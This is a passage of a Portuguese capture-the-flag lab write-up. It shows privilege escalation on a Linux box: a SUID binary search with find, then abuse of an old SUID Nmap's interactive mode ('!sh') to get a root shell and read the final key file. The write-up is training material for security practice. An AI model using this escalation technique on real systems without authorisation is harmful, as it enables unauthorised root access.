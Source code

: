 Como o usuário robot, iniciei a busca por binários com o `bit SUID` habilitado, que podem ser explorados para escalar privilégios. Esse comando retorna binários que possuem permissões especiais `(SUID/SGID)`, permitindo que executem com privilégios de outro usuário, geralmente o root. Encontrei o binário do `Nmap` em `/usr/local/bin/nmap` que é a dica da sala.

```console
robot@linux:/$ find / -perm /6000 2>/dev/null | grep '/bin/'
find / -perm /6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
```

Esta versão antiga do `Nmap` é conhecida por possuir um modo interativo vulnerável. Dentro do modo interativo, utilizei o comando `!sh` para escapar para um shell com privilégios de root. Com acesso root, acessei o diretório /root e encontrei a última chave.

```console
robot@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
ls -larth /root/
total 32K
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1.0K Sep 16  2015 .rnd
-rw-r--r--  1 root root 3.2K Sep 16  2015 .bashrc
drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
drwx------  2 root root 4.0K Nov 13  2015 .cache
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
drwx------  3 root root 4.0K Nov 13  2015 .
-rw-------  1 root root 4.0K Nov 14  2015 .bash_history
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
THM{********************************}
```
